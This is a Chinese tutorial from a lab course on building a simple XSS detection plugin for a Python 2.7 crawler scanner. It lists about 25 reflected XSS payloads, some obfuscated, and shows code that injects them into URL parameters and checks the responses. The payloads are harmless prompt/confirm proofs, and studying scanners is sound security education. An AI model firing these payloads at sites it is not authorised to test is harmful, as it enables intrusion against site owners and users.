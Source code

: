 # 基于爬虫开发XSS检测插件

## 一、实验说明


### 1.1 实验内容
本节课会基于上节课开发的插件框架，讲解xss漏洞形成的原理，据此编写一个简单的XSS检测插件，先上效果图。
![xss插件效果图](https://dn-anything-about-doc.qbox.me/document-uid102428labid2648timestamp1489725913410.png/wm)


### 1.2 实验知识点 

+ XSS基础知识
+ XSS检测原理

### 1.3 实验环境
- Python 2.7
- Xfce终端
- sublime 

### 1.4 适合人群
本课程难度为一般，属于中级级别课程，适合具有Python基础的用户，熟悉python基础知识加深巩固。

### 1.5 代码获取

你可以通过下面命令将代码下载到实验楼环境中，作为参照对比进行学习。
```bash
$ wget http://labfile.oss.aliyuncs.com/courses/761/shiyanlouscan3.zip
$ unzip shiyanlouscan3.zip
```


## 二、开发准备
### xss攻击原理

#### 什么是XSS
> 跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。  

#### 为什么要打造这个检测程序？
1. XSS很少有自动化工具可以对其进行攻击检测
2. 很难发现

#### 敲黑板！！
但是大家不要高兴的太早，我们这篇xss检测程序是很原始很初级的自动化检测，只能检测一部分xss漏洞，但没关系，我们先做出雏形，在后期维护的时候慢慢增强这个功能。

## 三、实验步骤

### 3.1 上节回顾
在上节课中，我们基于爬虫系统开发出了插件系统，这个系统会非常方便的把爬取出来的链接传递到插件系统中，·还记得怎么编写吗？我们只需要一个框架：
```python
import re,random
from lib.core import Download
class spider:
    def run(self,url,html):
         pass
```
然后将运行函数写到run函数里面就可以了,url,html是插件系统传递过来的链接和链接的网页源码。

### 3.2  XSS检测原理：
我们这里先做个很简单的xss原理检测工具，也很简单，就是通过一些xss的payload加入到url参数中，然后查找url的源码中是否存在这个参数，存在则可以证明页面存在xss漏洞了。  

payload list:
```html
</script>"><script>prompt(1)</script>
</ScRiPt>"><ScRiPt>prompt(1)</ScRiPt>
"><img src=x onerror=prompt(1)>
"><svg/onload=prompt(1)>
"><iframe/src=javascript:prompt(1)>
"><h1 onclick=prompt(1)>Clickme</h1>
"><a href=javascript:prompt(1)>Clickme</a>
"><a href="javascript:confirm%28 1%29">Clickme</a>
"><a href="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+">click</a>
"><textarea autofocus onfocus=prompt(1)>
"><a/href=javascript&colon;co\u006efir\u006d&#40;&quot;1&quot;&#41;>clickme</a>
"><script>co\u006efir\u006d`1`</script>
"><ScRiPt>co\u006efir\u006d`1`</ScRiPt>
"><img src=x onerror=co\u006efir\u006d`1`>
"><svg/onload=co\u006efir\u006d`1`>
"><iframe/src=javascript:co\u006efir\u006d%28 1%29>
"><h1 onclick=co\u006efir\u006d(1)>Clickme</h1>
"><a href=javascript:prompt%28 1%29>Clickme</a>
"><a href="javascript:co\u006efir\u006d%28 1%29">Clickme</a>
"><textarea autofocus onfocus=co\u006efir\u006d(1)>
"><details/ontoggle=co\u006efir\u006d`1`>clickmeonchrome
"><p/id=1%0Aonmousemove%0A=%0Aconfirm`1`>hoveme
"><img/src=x%0Aonerror=prompt`1`>
"><iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;">
"><h1/ondrag=co\u006efir\u006d`1`)>DragMe</h1>
```
### 3.3 可能大家会问为什么这样就可以检测xss
答：xss原理是把输入的代码当作html执行了，执行了就会在网页源码中显示，所以我们查找就行。

### 3.4 xss就这么简单？
错，xss有各种各样的玩法，本文只是一个简单的工具，用作抛砖引玉。

### 3.5 代码编写
为了以后代码编写的方便，我们编写一个函数取出url中的参数，
比如`https://www.shiyanlou.com/courses/?a=1&b=2&c=3` 。 
我们要将 1 2 3 都取出来进行替换，所以我们先创建一个公共函数来分割这些文本。  

在文件 `lib/core/common.py` 中
```python
def urlsplit(url):
    domain = url.split("?")[0]
    _url = url.split("?")[-1]
    pararm = {}
    for val in _url.split("&"):
        pararm[val.split("=")[0]] = val.split("=")[-1]

    #combine
    urls = []
    for val in pararm.values():
        new_url = domain + '?' + _url.replace(val,'my_Payload')
        urls.append(new_url)
    return urls
```
这个函数会返回一个元祖将每个参数用my_Payload标记，到时候我们替换这个参数就行了。

然后编写我们的xss检查程序，这个程序也是一个基于爬虫的框架。

### 3.6 开始之前
开始之前现在目录新建一个data文件夹，这个文件夹用于存储我们的一些数据。
然后把xss payload放入进入，命名的话随意，这里我就命名为xss.txt，  内容为之前的xss payload list。

### 3.7 xss检测程序代码
在`script`目录下新建文件`xss_check.py`。
代码如下：
```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

from lib.core import Download,common
import sys,os

payload = []
filename = os.path.join(sys.path[0],"data","xss.txt")
f = open(filename)
for i in f:
    payload.append(i.strip())

class spider():
    def run(self,url,html):
        download = Download.Downloader()
        urls = common.urlsplit(url)
        
        if urls is None:
            return False
        for _urlp in urls:
            for _payload in payload:
                _url = _urlp.replace("my_Payload",_payload)
                print "[xss test]:",_url
                #我们需要对URL每个参数进行拆分,测试
                _str = download.get(_url)
                if _str is None:
                    return False
                if(_str.find(_payload)!=-1):
                    print "xss found:%s"%url
        return False
```
效果图：

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid102428labid2648timestamp1489725902024.png/wm)

```python
payload = []
filename = os.path.join(sys.path[0],"data","xss.txt")
f = open(filename)
for i in f:
    payload.append(i.strip())
```
这行代码主要实现了读取我们的xsspayload文件。  

因为文件是在windows下生成的，所以我们要对每行用`strip()`过滤下`\n` `空格`等的特殊符号。接下来的代码就是xss检测的运行流程了，获取到url，拆分url，对每个url拆分参数进入注入分析，成功就返回出来。一个很简单的思路。

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid102428labid2648timestamp1489726069536.png/wm)

